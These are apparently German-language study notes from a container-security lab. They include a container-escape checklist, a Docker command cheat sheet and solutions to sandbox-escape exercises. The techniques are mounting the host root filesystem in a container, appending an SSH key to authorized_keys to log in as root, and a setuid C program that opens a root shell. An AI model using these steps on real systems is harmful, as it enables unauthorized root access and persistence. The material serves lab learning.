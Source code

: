 #### Hacking
1. Verbinden mit Server
2. Schauen ob Docker Daemon erreichbar
	1. Falls Ja, neuen Container aufmachen mit gemountetem root directory
	   `docker image`
	   `docker run -it --rm -v /:/mnt/host <imageID>` 
	   (evtl `/bin/bash` falls nicht automatisch)
3. Schauen ob Directory Mounted
   `df -h` Zeigt Filesysteminfos, man sieht was gemounted
   `mount` Zeigt alle gemounteten Directorys an
   1. Falls Ja, liegt ein SSH Ordner im Directory? (/.ssh/)
	   1. Falls Ja, meinen SSH Public Key in /.ssh/authorized_keys legen auf Docker
	      Mit Strg + C & Strc + V.
	      Oder
	      `cat id_ed25519.pub | ssh <user>@<URL> -p <port> 'cat >> /<PathMountedDir>/.ssh/authorized_keys'`
	   3. Mit SSH als root verbinden und schauen was so abgeht auf Hostsystem
	      `sudo ssh `

$\rightarrow$ Privilege Escalation auf Host System falls noch nicht root

#### Commands
Docker help
`sudo docker help`

Download Docker Image
`sudo docker pull <url>`

Start Docker Daemon Manually
`sudo systemctl start docker`

List containers
`sudo docker ps`

List images
`sudo docker images`

Start local Docker and get a shell
`sudo docker run --rm -it <imageID> /bin/bash`

Show image history
`sudo docker image history --no-trunc <imageID>`

Show Infos über image
`sudo docker image inspect <imageID>`

Image history reverten
https://gist.github.com/dasgoll/476ecc7a057ac885f0be

Falls history `<missing>` dann image inspect
und durch die Diff Ordner suchen bis man die Datei findet die man sucht

Mit externem Docker verbinden
`ssh root@domain -p <port>`


#### Solutions Exercises
##### Part IV
Wir befanden uns auf einer Host Maschine mit User Student. Der konnte den Docker Daemon benutzen. Es gab ein Image mit Root Rechten. Dies haben wir gestartet mit gemountetem Host Directory `docker run --rm -it -v /:/mnt/host IMAGE_ID /bin/bash`. Dann haben wir unseren SSH public key auf in  den User Student Ordner auf dem Host System kopiert mit `cat ssh-key.pub | ssh -p 22 student@four.sandbox-escape.scenario.cip.institute 'cat >> /home/student/.ssh/authorized_keys'`. Anschließend über dem auf dem Host laufenden Docker Image unseren SSH Key in das Root Verzeichnis gelegt mit `cat /mnt/host/home/student/.ssh/authorized_keys >> ./.ssh/authorized_keys`. Dann konnten wir uns als Root ohne Passwort mit dem Host System verbinden via SSH mit `sudo ssh -p 22 -i /home/ssh-key root@four.sandbox-escape.scenario.cip.institute`.

##### Part VI
Per SSH mit Docker verbunden.  Mit 'df -h' und 'mount' gemountete Filesystems gefunden '/dev/vda1' auf '/home/student/'. Anschließend in das gemountete Directory meinen public ssh Key kopiert ('/home/student/.ssh/authorized_keys'). Anschließend per SSH als student user mit dem Host verbinden

Verbleibt Root zu werden. Dazu schrieb ich ein C Programm welches mit uid 0 läuft (root rechten) und eine Shell öffnet. Das Programm schrieb ich im Docker (könnte man auch mit scp kopieren), kompilierte es und setzte das setuid bit auf 1 mit 'chmod u+s prog'. Anschließend änderte ich den Owner zu 1001 ('chown root:root prog'), da dies auf dem Host der Student User ist und ich somit später das Programm ausführen konnte. Anschließend wieder per SSH als student verbinden. Dann Programm starten, durch setuid Shell mit Root rechten. Root Ordner navigieren und Flag abholen

#### Simple Web Docker
```
FROM ubuntu

RUN apt -y update && apt -y install python3
COPY hello /hello
CMD ["python3", "-m", "http.server"]
```

`sudo docker build -t test`

`sudo docker run -it --rm -p 80:8000 test`
`curl localhost:80`
